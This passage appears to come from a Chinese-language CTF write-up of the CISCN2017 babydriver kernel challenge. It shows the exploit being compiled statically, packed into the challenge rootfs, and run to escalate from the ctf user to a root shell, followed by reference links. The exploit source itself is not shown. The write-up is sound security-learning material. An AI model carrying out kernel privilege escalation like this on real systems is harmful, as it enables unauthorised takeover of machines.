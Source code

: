 
#### get root shell
```bash
// 静态编译文件，kernel 中没有 libc
CISCN2017_babydriver [master●●] gcc exploit.c -static -o exploit
CISCN2017_babydriver [master●●] file exploit
exploit: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=90aabed5497b6922fda3d5118e4aa9cb2fa5ccc5, not stripped
// 把编译好的 exp 解压后的目录下，重新打包 rootfs.cpio
CISCN2017_babydriver [master●●] cp exploit core/tmp 
CISCN2017_babydriver [master●●] cd core 
core [master●●] find . | cpio -o --format=newc > rootfs.cpio
7017 块
core [master●●] cp rootfs.cpio ..
core [master●●] cd ..
// kvm 需要有 root 权限
CISCN2017_babydriver [master●●] sudo ./boot.sh
......
......

/ $ ls /tmp/
exploit
/ $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
/ $ /tmp/exploit
[   14.376187] device open
[   14.376715] device open
[   14.377201] alloc done
[   14.377629] device release
[+] root now.
/ # id
uid=0(root) gid=0(root) groups=1000(ctf)
/ #

```

当然也可以用 rop 来做，放到下一篇分析


## Reference:

https://bbs.pediy.com/thread-247054.htm

https://whereisk0shl.top/NCSTISC%20Linux%20Kernel%20pwn450%20writeup.html

http://muhe.live/2017/07/13/babydriver-writeup/

https://www.anquanke.com/post/id/86490
